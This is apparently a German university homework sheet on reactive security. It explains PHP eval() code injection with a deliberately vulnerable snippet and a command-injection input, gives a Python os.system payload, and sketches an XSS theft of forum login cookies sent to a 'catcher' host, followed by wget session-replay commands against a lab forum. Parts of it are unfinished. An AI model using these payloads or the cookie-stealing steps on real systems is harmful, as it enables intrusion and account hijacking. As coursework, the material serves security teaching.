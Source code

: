 ```yaml
---
title: "Reaktive Sicherheit"
subtitle: "Übungsblatt 6"
author: 
	- Balduin Binder [s6babind@uni-bonn.de]
	- Charlotte Mädler [s6chmaed@uni-bonn.de]
	- Bünyamin Sarikaya [s6busari@uni-bonn.de]
lang: de
output: pdf_file
---
```


# Aufgabe 1
  (1)Dynamic Evolution Verwundbarkeit: der Angreifer kontrolliert eine Zeichenkette, die als PHP-Script-Code
interpretiert wird.

  In PHP gibt es die Funktion eval(), die benutzt wird um ein String zu evaluieren. Ein Angreifer würde jetzt teile oder den ganzen String maniuplieren um den String zu kontrollieren. Zum Beispiel:
  
```
  <?php
  $name='Charly';
  $string=$_GET['arg'];
  eval("\$name=\"$string\";");
  ?>
```
  
  Wenn der Angreifer hier als Input für String 'noname; system("Is")' gibt, wird in der eval() Funktion Is aufgerufen und eine Liste der Dateien im Directory wird offengelegt. Unter umständen kann der Angreifer sensible Dateien sehen, löschen oder updaten.
  
  (2) Das Schutzziel der Verfügbarkeit (Möchliches Löschen von Daten), der Vertraulichkeit (Sichten von sensiblen Daten) und der Integrität (Datenmanipulation) werden verletzt. Man könnte auch sagen, dass indirekt die Zurechenbarkeit verletzt wird (Aktion vom Opfer oder vom Angreifer ausgeführt?). 
  
  (3) Flask ist ein lightweight web application framework (eine Software, die für die Entwicklung von dynamischen Webseiten, Webanwendungen oder Webservices ausgelegt ist). Dieses Programm soll eine Rechenoperation ausführen bzw. Ausgeben, die vom Nutzer eingegeben wird (also ähnlich wie ein Taschenrechner). 
  
  (4) In Flask gibt es die Dynamic Evolution Verwundbarkeit, da Flask unteranderem die Funktion eval() nutzt. 
  
 (5)Eval() wird benutzt um einen einzigen, dynamisch genereierten Python-Ausdruck zu evaluieren. Exec wird zum ausführen dynamisch generirten Python codes genutzt.
  
Eval kann also nur ein einziges Argument entgegen nehmen, exec ein code block (loops, class, def, etc.) Eval gibt einen Wert zurück, exec gibt immer None zurück. In python 3 ist exec eine Funktion, die keine Auswirkung auf den compilierten Bytecode der Funktion hat wo exec angewendet wird. 
  
  (6)_ import _('os').system('gedit')
  
  # Aufgabe 3
  GET('data') kann als erweiterung zum übergeben von Daten genutzt werden. Hier bei werden diese in $cookie gespeichert:
  ```
  if(isset($_GET['data']))$cookie=$_GET['data'] 
  ```
  (Falls Cookie gesetzt, Daten übermitteln)
  Ein im Forum angemeldeter Nutzer hat die Möglichkeit in Beiträgen Code einzubetten, um Beispielsweise als angreifer zu versuchen die Einlogdaten anderer Nutzer rauszufinden.
  Hierfür müsste das login-cookie ausgelesen werden und als GET übermittelt werden (Redirect an Catcher-Virutal Host), 
  Irgendwas mit location.replace("http://192.168.178.63/catcher?data=   ????
  
  um dann schließlich mit wget ausgelesen/verwendet werden:
  
  ```
  wget --no-cookies --header "Cookie: sid=..." http://192.168.178.104/forum
  ```
  Um ein Beitrag zu schreiben:
  ```
  wget --no-cookies --header "Cookie: sid=..." --post- data "Text=Nachricht" http://192.168.178.104/forum/post.php
  ```
  
